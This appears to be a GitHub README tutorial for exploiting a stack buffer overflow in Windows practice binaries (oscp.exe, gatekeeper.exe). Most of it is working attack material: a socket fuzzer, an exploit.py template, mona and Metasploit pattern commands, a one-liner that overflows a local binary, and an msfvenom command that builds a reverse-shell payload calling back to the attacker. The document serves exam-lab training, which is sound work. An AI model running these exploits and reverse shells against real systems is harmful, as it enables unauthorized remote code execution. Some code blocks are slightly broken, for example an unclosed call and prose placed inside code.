 # Buffer-Overflow-Script
The script help you to understand the bascis of Buffer overflow and will save you a lot of time while executing the attack.

I have created different file step by step to make.
Below is the following sequence -
1. Fuzzing (fuzzer.py)
2. Crash Replication & Controlling EIP (Crash Replication.py)
3. Metasploit random pattren 
4. use mona to find out the pattren offset
5. Finding Bad Characters (Badchars.py)
6. Finding a Jump Point
7. Generate Payload
8. Prepend NOPs
9. Use everything above and add your prefix + overflow + retn + padding + payload + postfix
 to **exploit.py**

Important 1st set **Mona Configuration** to a specific folder

```
!mona config -set workingfolder c:\mona\%p
```

# **Fuzzing**

Create a file on your Kali box called fuzzer.py with the following contents:

fuzzer.py

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1
```

# **Crash Replication & Controlling EIP**

exploit.py

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Creating a pattern with -l with no. of crash + 400 as saftey

```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

Copy the output and place it into the payload variable of the [exploit.py](http://exploit.py/) script.

To find offset of the EIP (On the Debugger)

findmsp

The findmsp command will find all instances or certain references to a cyclic pattern (a.k.a. “Metasploit pattern”) in memory, registers, etc

```python
!mona findmsp -distance 600
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png)

we are controlling EIP. in the end we need to make jump through it

update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

# **Finding Bad Characters**

just find badchar sending via payload then esp dump thing find the bad chars

jump to them to find the return value

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

IMP —- use direct bad chars just edit it no neeed to type shit.

```python
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

Update your [exploit.py](http://exploit.py/) script and set the payload variable to the string of bad chars the script generates.

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

ESP > follow the dump for more accurate result

# **Finding a Jump Point**

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' will output the payload we want, but it requires manually converting to little endian
```

```python
Method 2 - Struct:
```

```python
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```

```python
It requires importing a module but struct.pack allows us to automatically convert memory to little endian.
```

```python
We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary
```

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```python
!mona jmp esp -m gatekeeper.exe
!mona jmp -r esp -cpb "\x00(badchars)"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit. script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

# **Generate Payload**

Run the following msfvenom command on Kali, using your Kali VPN IP as LHOST and updating the -b option with all the badchars you identified (including \x00):

```python
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

# **Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16

```

